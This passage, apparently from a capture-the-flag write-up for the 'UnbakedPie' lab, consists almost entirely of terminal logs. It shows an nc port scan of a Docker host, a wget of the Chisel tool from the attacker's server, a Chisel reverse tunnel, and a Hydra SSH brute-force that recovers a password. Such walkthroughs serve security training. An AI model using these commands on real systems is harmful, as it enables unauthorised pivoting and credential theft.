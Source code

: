 <br>

```bash
root@8b39a559b296:/home# nc -zv 172.17.0.1 1-65535
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 5003 (?) open
ip-172-17-0-1.eu-west-1.compute.internal [172.17.0.1] 22 (ssh) open
```


<h3>Chisel</h3>

```bash
root@8b39a559b296:/home# wget http://10.10.132.109:8000/chisel
--2025-07-25 16:07:16--  http://10.10.132.109:8000/chisel
Connecting to 10.10.132.109:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8339456 (8.0M) [application/octet-stream]
Saving to: \u2018chisel\u2019

chisel              100%[===================>]   7.95M  --.-KB/s    in 0.07s   

2025-07-25 16:07:16 (115 MB/s) - \u2018chisel\u2019 saved [8339456/8339456]

root@8b39a559b296:/home# chmod +x chisel
```

```bash
root@ip-10-10-132-109:~/UnbakedPie# ./chisel server -p 2223 --reverse
2025/07/25 17:08:17 server: Reverse tunnelling enabled
2025/07/25 17:08:17 server: Fingerprint FaT4RmM5sqrO1Jf6/Sbfgw/CtwdK6vwDa7DYoU5qccw=
2025/07/25 17:08:17 server: Listening on http://0.0.0.0:2223
```

```bash
root@8b39a559b296:/home# /tmp/chisel client 10.10.132.109:2223 R:2222:172.17.1.0:22            
2025/07/25 16:12:45 client: Connecting to ws://10.10.132.109:2223
2025/07/25 16:12:45 client: Connected (Latency 877.333µs)

```


<h3>Hydra</h3>

```bash
root@ip-10-10-132-109:~/UnbakedPie# hydra -l 'ramsey' -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.1 -s 2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-25 17:14:16
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://172.17.0.1:2222/
[2222][ssh] host: 172.17.0.1   login: ramsey   password: 12345678
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-25 17:14:21
```
